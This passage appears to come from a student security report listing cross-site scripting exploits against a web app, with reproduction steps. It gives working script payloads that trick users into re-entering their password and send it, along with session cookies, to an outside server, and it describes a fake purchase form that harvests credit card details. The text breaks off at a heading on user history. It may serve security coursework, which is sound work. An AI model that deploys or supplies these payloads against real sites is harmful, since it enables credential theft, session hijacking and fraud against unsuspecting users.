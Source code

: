       When the user fills out the form and clicks `BUY` a their credit card information gets stored in a file on our server. Note we could have also linked the virus from the previous point so that the user got a virus on download.

      These types of widgets and embedded information can be used to trick users into getting even more information (such as shipping and address information)

4. __Exploit__:

   #### Send Information Outside Site

   [back to exploit summary](#summary-of-xss-exploits)

   __Steps To Reproduce__:
   1. If we want to opt for exploits that are more subtle, we can use insert javascript
      into the browser to send us user information:

      ```HTML
        <script>
            var password = prompt("Confirm Password");
            url="http://cslinux.utm.utoronto.ca/~debourbo/password.php?password="+password; document.location=url;
        </script>
     ```
     When the user goes back to log in, this script asks the user to confirm their password and sends the password
     to file on our server. Note, we could also ask for additional login information names or like common password
     reset strings such as
     ```
     Verify Identity by Answering One of Your Security Questions - What is your favourite resturant? etc.
     ```

5. __Exploit__:

    #### Stealing User Cookies   

   [back to exploit summary](#summary-of-xss-exploits)

    __Steps To Reproduce__:
    1. Javascript exploits also allow you to get access to the user's cookie information:

       ```HTML
         <script>
             url="http://cslinux.utm.utoronto.ca/~debourbo/cookie.php?cookie="+document.cookie; document.location=url;
         </script>
       ```
       Note that this may be done more discretely using loads through image tags etc.
       We can use these cookies to gain access to the users account.

       session hijacking via ajax json java script or a mlicious link

6. __Exploit__:

   #### Accessing User History
